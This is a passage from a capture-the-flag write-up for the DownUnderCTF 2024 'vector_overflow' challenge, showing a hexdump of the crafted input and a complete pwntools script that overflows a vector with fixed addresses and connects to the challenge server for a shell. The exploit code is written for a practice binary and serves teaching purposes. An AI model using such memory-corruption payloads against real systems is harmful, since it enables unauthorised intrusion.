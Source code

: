 === "output"
    ```txt linenums="0"
    00000000  44 55 43 54  46 00 00 00  00 00 00 00  00 00 00 00  │DUCT│F···│····│····│
    00000010  e0 51 40 00  00 00 00 00  e5 51 40 00  00 00 00 00  │·Q@·│····│·Q@·│····│
    ```

Full script to launch binary (or connect to CTF server if REMOTE param provided) and send the payload:

??? success "solve.py"
    ```py
    from pwn import *
    
    # initialize library to work with binary
    context.binary = elfexe = ELF('./vector_overflow') 
    libc = elfexe.libc
    
    context.log_level = 'warn'
    
    arguments = []
    if args['REMOTE']: # if REMOTE argument provided, connect to the challenge server, otherwise launch binary locally
        remote_server = '2024.ductf.dev'
        remote_port = 30013
        io = remote(remote_server, remote_port)
    else:
        io = process([elfexe.path] + arguments)
    
    paylod = flat(  # build payload
        b'DUCTF\x00',
        '\x00' * 10,
        pack(0x4051e0),
        pack(0x4051e0 + 5)
    )
    io.sendline(paylod) # send to server/binary
    
    io.interactive() # switch to interactive mode when you got the shell, you can now use `ls`, `cat flag.txt`
    io.close()
    ```


## Epilogue

* Official website: [https://downunderctf.com/](https://downunderctf.com/)
* Official writeups: https://github.com/DownUnderCTF/Challenges_2024_Public

*[RSI]: general purpose register on x86_64 architecture
